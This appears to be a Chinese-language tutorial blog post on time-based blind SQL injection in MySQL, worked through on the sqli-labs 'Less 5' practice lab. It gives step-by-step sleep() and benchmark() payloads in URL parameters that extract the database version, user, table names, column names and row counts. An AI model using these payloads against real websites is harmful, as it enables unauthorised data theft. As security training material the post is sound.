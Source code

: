 ```yaml
---
title: 基于时间的盲注
toc: true
description: 本文使用 sqli less 5 进行基于时间盲注的讲解，介绍其原理，常用函数、payload、流程步骤等。
categories:
    - websec
    - sql injection
date: 2019-07-27 22:40:30
tags:
---
```


一般猜测/尝试顺序：

回显注入（单引号->没引号/双引号->括号->括号与单/双引号）->布尔盲注/报错盲注->时间注入

# 时间盲注简介

所谓延时注入主要针对页面无变化，无法用布尔真假判断，无法报错的情况下注入。延时注入是通过页面返回的时间来判断的。

不同的 mysql 数据库版本，延迟注入语句也不同。
mysql >= 5.0 的可以使用 sleep 进行查询 sleep（5）
mysql < 5.0 的可以使用 benchmark( )进行查询 select benchmark(1000,select \* from admin);

# 时间盲注常用函数

1. sleep(n)延长查询时间，延长 n 秒

2. if(exp1,exp2,exp3)如果 exp1 为真，那么执行 exp2，否则执行 exp3.

    比如： if(ascii(substr(version(),1,1))=65,1,sleep(5))

    如果当前数据库版本的第一个字符的 ascii 码为 65，那么正常执行，否则程序等待三秒再执行。

# 检测注入点

先进行前面的一堆可能的注入特征检测，都没有后，可以使用一下注入语句，通过判断页面是否出现延迟来检测是否存在延时注入。

?id=1 and sleep(3) --+

?id=1 and if(1=1,1,sleep(3))

?id=1 and if(1=2,1,sleep(3))

一般，用第一个就能检测出来

# 注入流程

注入流程是和布尔盲注差不多，除了多用了一个 if () 和 sleep 语句，没别的。

### 注入版本

```php
?id=1' and if(left(version(),3)>'5.5',1,sleep(5)) --+
?id=1' and if(left(version(),6)='5.5.53',1,sleep(5)) --+
```

结果：5.5.53

### 注入当前数据库

```php
?id=1' and if(ascii(substr(database(),1,1))=116,1,sleep(5)) --+
?id=1' and if(ascii(substr(database(),2,1))>100,1,sleep(5)) --+
```

一个字符字符的注入，最终，数据库名：security

### 注入当前用户

```php
?id=1' and if(ascii(substr(user(),1,1))>113,1,sleep(3)) --+
```

一个个注入，这里不再演示，结果应该是：root@localhost。

### 当前数据库下的表的个数

```php
?id=1' and if((select count(table_name) from information_schema.tables where table_schema='security')>3,1,sleep(3)) --+
```

4 个表

### 当前数据库下的表名

```php
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>102,1,sleep(3)) --+
```

猜到一半，我感觉是 email，然后验证。

```php
?id=1' and if(left((select table_name from information_schema.tables where table_schema='security' limit 0,1),5)='email',1,sleep(3)) --+
```

验证成功，表名：emails，同理猜测出其他表名: referers，uagents，users

### email 的字段名

```
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),2,1))>100,1,sleep(3)) --+
```

第一个字段：id，然后类推。

### users 表中记录的个数

```php
?id=1' and if((select count(*) from users)>13,1,sleep(3)) --+
```

​ 13 条记录

# benchmark 函数

除了 sleep 函数能够产生延时以外，benchmark 函数同样能够达到类似效果，使用方法也是类似的，一般在 sleep 用不了的时候，试试 benchmark

BENCHMARK(count,expr)用于测试函数的性能，参数一为执行次数，二为要执行的表达式。

可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的 cpu 资源。

比如：可以在 mysql cmd 执行：select benchmark(5000000, md5('helloworld'));

如果觉得慢，可以使用：select benchmark(5000000, sha('helloworld'));

计算 sha 摘要比计算 md5 摘要费时间。

举例

```php
?id=1' and if((select count(*) from users)>19,1,benchmark(2000000,sha('hello'))) --+
```

我一般使用 benchmark(2000000,sha('hello'));

# 总结回顾

1. limit 下标是从 0 开始，substr 下标是从 1 开始
